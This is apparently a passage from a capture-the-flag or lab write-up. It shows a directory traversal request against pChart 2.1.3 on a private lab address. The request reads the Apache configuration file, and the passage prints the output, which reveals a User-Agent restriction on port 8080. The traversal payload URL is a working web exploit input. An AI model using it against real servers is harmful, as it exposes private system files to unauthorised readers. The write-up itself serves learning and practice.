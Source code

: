 ![writeup.exploitation.steps.1.3](./screenshot06.png)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
``` {.python .numberLines}
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>

```
